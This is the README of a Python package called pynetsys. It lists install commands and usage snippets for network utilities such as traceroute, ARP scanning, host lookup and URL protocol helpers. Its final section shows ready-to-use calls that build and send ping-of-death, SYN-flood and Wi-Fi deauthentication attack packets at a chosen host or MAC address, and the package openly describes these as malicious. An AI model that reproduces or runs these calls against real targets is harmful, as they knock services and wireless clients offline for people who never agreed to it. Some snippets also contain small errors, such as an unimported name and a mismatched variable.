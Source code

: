 # PYNETSYS

pynetsys is a collection of tools and malicious packets.

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

----------------

isonline = pynetsys.isOnline("python.org") --> bool
print(isonline)

haswebprotocol = pynetsys.hasWebProtocol("http:\\python.org") --> bool
OR
haswebprotocol = pynetsys.hasWebProtocol("python.org") --> bool 
print(haswebprotocol)

hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("https:\\python.org") --> bool
OR
hasSSLwebprotocol = pynetsys.hasSSLWebProtocol("python.org") --> bool 
print(hasSSLwebprotocol)

addwebprotocol = pynetsys.addWebProtocol("python.org") --> bool 
print(addwebprotocol)

removewebprotocol = pynetsys.removeWebProtocol("https:\\python.org") --> bool 
OR
removewebprotocol = pynetsys.removeWebProtocol("http:\\python.org") --> bool 
print(removewebprotocol)
```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```